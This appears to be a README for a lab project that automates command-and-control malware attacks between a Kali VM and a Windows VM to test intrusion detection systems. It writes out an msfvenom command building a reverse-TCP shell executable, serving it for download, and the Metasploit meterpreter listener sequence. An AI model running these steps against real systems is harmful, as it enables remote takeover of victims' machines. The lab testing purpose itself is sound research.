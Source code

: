 # C2abstraction
C2 abstraction layer that provides high level diverse malware attacks to test IDS. 

Important Notes: Updated 11-07-2023

The important pyton files are 'C2Abstraction' and 'Mouse Script'

Virtual Machines:
Attacker - Kali Linux (each IP is different => Must change line 64 in setup)
Victim - Another virtual machine (in this case using Windows)

Preliminary work:
    - Setting up Kali Linux (on VMWare, an alternative is on Oracle VM): https://www.youtube.com/watch?v=pwYH0NNWWzU
    - Setting up victim machine: https://www.youtube.com/watch?v=nvdnQX9UkMY&t=259s

METASPLOIT:
    How to create a payload?
        - If you are creating a payload for testing directly from terminal
          run command 'msfvenom -p windows/shell/reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f exe > ~/Desktop/ShellCodes/payload.exe'
          NOTE: this command assumes that you have a folder called 'ShellCodes' (can be removed)

    How to deploy the payload? (Need to automate this step)
        - As of right now, you can create a server to host the payload by
          right clicking on the folder and choose 'open terminal here' then
          use the command 'python3 -m http.server'

        - How to access this sever on the victim machine?
            * Open a webserver and type in 'http://{ip of kali machine}:{port number}'
            * In this case it is 'http://192.168.239.128:8000 (8000 is the default port)

    How to run msfvenom?
        - run 'msfconsole' in command line
        - then type in 'use exploit/multi/handler'
        - then set payload as 'set payload windows/meterpreter/reverse_tcp'
        - set host using 'set lhost {attacker ip}'
        - set listening port using 'set lport {target_port}'
        - then type in 'exploit'
        NOTE: in the code this whole sequence is chained into one line on line 46: 'use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost {target_ip}; set lport {target_port}; exploit;


How to track if HTTP commands/connections are going through?
    -You can catch the logs of the HTTP connections in real time by
        * going to /etc
        * then go to /ssh
        * then use 'nano' command to edit the 'sshd_config' file
        * look for the line '#LogLevel INFO'
        * remove the # then replace INFO with 'VERBOSE'
        * now run 'sudo journalctl -f' in the command line to track the logs

How to run the payload on the victim machine?
    - Using SCP we can connect to


COVENANT:
NOTE: What is the difference between covenant and metasploit?
        - Covenant has a web GUI that requires a script to control the mouse to deploy the malware

How to download covenant/introduction to covenant: https://www.youtube.com/watch?v=BLMW0fougFM
How to use the interface: https://www.youtube.com/watch?v=iX_qsbbNk2w

Mouse Script:
    - This python file is used to automatically control your mouse to create a listener on the GUI
      and create the "grunt" (used for collecting information)




#Citation
